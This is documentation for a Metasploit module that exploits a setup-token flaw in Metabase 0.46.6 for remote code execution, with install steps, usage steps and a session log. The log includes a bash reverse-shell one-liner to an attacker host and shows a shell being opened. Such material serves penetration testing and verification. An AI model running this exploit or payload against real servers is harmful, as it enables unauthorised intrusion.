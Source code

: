 ## Vulnerable Application

Metabase versions before 0.46.6.1 contain a flaw where the secret setup-token
is accessible even after the setup process has been completed. With this token
a user is able to submit the setup functionality to create a new database.
When creating a new database, an H2 database string is created with a TRIGGER
that allows for code execution. We use a sample database for our connection
string to prevent corrupting real databases.

Successfully tested against Metabase 0.46.6.

### Install

```
docker run -d -p 3000:3000 --name metabase metabase/metabase:v0.46.6
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/metabase_setup_token_rce`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get a shell.

## Options

## Scenarios

### Metabase 0.46.6 on Docker

```
msf6 > use exploit/linux/http/metabase_setup_token_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/metabase_setup_token_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(linux/http/metabase_setup_token_rce) > set lhost 111.111.11.111
lhost => 111.111.11.111
msf6 exploit(linux/http/metabase_setup_token_rce) > set verbose true
verbose => true
msf6 exploit(linux/http/metabase_setup_token_rce) > exploit

[+] bash -c '0<&46-;exec 46<>/dev/tcp/111.111.11.111/4444;sh <&46 >&46 2>&46'
[*] Started reverse TCP handler on 111.111.11.111:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.46.6
[+] Found setup token: 45a2c97a-97f5-4a89-8f37-769b13411d16
[*] Sending exploit
[*] Command shell session 1 opened (111.111.11.111:4444 -> 222.22.2.2:55650) at 2023-07-28 12:48:47 +0000

id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
```
